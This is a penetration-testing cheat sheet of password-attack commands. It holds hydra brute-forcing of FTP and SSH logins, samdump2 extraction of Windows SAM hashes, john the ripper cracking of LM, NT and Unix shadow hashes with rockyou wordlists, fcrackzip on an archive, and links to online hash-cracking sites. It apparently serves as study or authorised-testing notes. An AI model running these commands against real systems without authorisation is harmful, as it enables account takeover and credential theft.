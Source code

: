 
==========================================================================================
				PASSWORD ATTACKS
==========================================================================================
https://hashkiller.co.uk/Cracker/NTLM

https://crackstation.net/

#A list of usernames, checking for no passwords (n) and users using their usernames as
#passwords (s) and timing of 1.
hydra -L usernames.txt -e sn -t 1 ftp://172.17.0.150

hydra -L users.txt -e sn -t 1 $tgt ssh


# Offline Attacks of the Windows Sam (example inside backup of windows in /Winsows/System32/Config/)
samdump2 SYSTEM SAM > hashes.txt


hash-identifier

+++++++++++++++++++++++++++++++++john++++++++++++++++++++
#LM HASHES?
john --incremental:lanman --format=LM hashdump.txt

john --format=NT --rules --wordlist=/usr/share/wordlists/rockyou.txt hashdump

john 127.0.0.1.pwdump

#To use a wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump

#To mutate a list on the fly
john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump

#To unshadow unix passwd
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt

#Attempt to brute force it
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

#Create a password session that can be paused and resumed
john --session=payday --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt &

#check on john
john --status

#bring job to front to abort it
fg 1 (or the job number)

#restore the seesion back to the background
john --restore=payday &

#cracking zip files
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip

#Mutating a wordlist from CEWL etc.
john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
